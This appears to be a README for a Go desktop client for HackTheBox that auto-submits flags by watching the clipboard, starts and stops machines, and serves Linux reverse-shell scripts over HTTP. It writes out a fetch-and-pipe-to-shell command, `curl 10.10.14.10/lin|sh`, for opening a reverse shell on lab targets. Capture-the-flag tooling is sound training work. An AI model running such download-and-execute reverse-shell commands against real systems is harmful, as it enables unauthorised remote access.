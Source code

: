 ![styx river](/styx.png)
# styx v0.0.1
 Styx is an cross-platform GUI interface for HackTheBox made in GoLang. Styx's UI is made with the [giu](https://github.com/AllenDang/giu) library.  
  
 Styx is made with the objective of reducing the friction of playing seasonal machines on HTB through it's web interface. Allowing the user to quickly perform more time-sensitive actions in a faster manner.
 ## Features
 #### **Automatic Flag Submission** 
 Styx will continuously check the machine clipboard for any user or root flags, and will submit them automatically through HackTheBox's APIs. 
 #### **Built-in Reverse Shell Generator** 
 Styx contains a simple HTTP server that listens on port :61337 and returns pre-made reverse-shell scripts for Linux. Allowing you to quickly get a reverse shell with a simple  `curl 10.10.14.10/lin|sh` 
 #### **Machine Management** 
 Styx allows the user to start and stop machines on their own behalf. Flag submission is handled by the **auto flag submission** feature. 

## Usage
1. `go install github.com/c3l3si4n/styx@HEAD`
1. Create an app token on your HTB profile (any duration you want)
2. Set the `HTB_TOKEN` environment variable with the value containing your generated token
3. Run styx

